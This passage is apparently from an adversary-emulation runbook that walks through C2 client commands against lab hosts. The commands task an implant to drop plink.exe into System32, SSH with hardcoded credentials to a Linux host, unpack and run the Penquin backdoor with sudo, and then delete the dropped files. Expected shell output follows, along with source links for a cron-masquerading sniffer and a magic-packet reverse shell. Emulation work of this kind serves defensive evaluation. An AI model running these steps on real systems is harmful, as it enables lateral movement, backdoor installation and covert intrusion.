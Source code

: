 * Wait 1 minute and then task the implant to download `plink.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 7, "payload": "plink.exe", "payload_dest": "C:\\Windows\\Temp\\plink.exe", "cmd": "move C:\\Windows\\Temp\\plink.exe C:\\Windows\\System32\\plink.exe && dir C:\\Windows\\System32\\plink.exe"}'
```

* Wait 1 minute and then task the implant to execute Penquin (Penquin takes ~8 seconds to execute). 
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 8, "cmd": "(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\\Windows\\System32\\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23"}'
```

* Ensure no commands returned errors in the plink output:
  * > ```
    > unzip /tmp/tmp514f524f -d /tmp 
    > 
    > sudo mv /tmp/hsperfdata /root/hsperfdata 
    > 
    > sudo /root/hsperfdata 
    > 
    > exit 
    > 
    > adalwolfa@skt.local@kagarov:~$ unzip /tmp/tmp514f524f -d /tmp 
    > Archive:  /tmp/tmp514f524f
    >   inflating: /tmp/hsperfdata         
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo mv /tmp/hsperfdata /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ sudo /root/hsperfdata 
    > adalwolfa@skt.local@kagarov:~$ 
    > adalwolfa@skt.local@kagarov:~$ exit 
    > logout
    > ```

* Wait 1 minute and then task the implant to clean up downloaded files
```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 9, "cmd": "del /Q C:\\Windows\\Temp\\tmp504e.tmp C:\\Windows\\System32\\pscp.exe C:\\Windows\\System32\\plink.exe"}'
```


### :moyai: Source Code

* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* [Penquin](../../Resources/Penquin/) ([Network Sniffer](../../Resources/Penquin/sniff.c), [Penquin Installer](../../Resources/Penquin/main.c), & [Obfuscation Algorithm](../../Resources/Penquin/crypt.h#L60))
  * [Writes the sniffer (Penquin) to disk](../../Resources/Penquin/main.c#L220)
  * [Moves Penquin to /usr/bin](../../Resources/Penquin/main.c#L121)
  * [Creates a service file](../../Resources/Penquin/main.c#L173)
  * [Stops cron service](../../Resources/Penquin/main.c#L143)
  * [Executes Penquin as cron](../../Resources/Penquin/main.c#L198)
  * [Real cron starts as child process](../../Resources/Penquin/sniff.c#L198)
  * [Installs packet sniffer on eth0](../../Resources/Penquin/sniff.c#L482)
  * [Magic packet filter criteria](../../Resources/Penquin/sniff.c#L437-L442)
  * [Execute reverse shell](../../Resources/Penquin/sniff.c#L405)
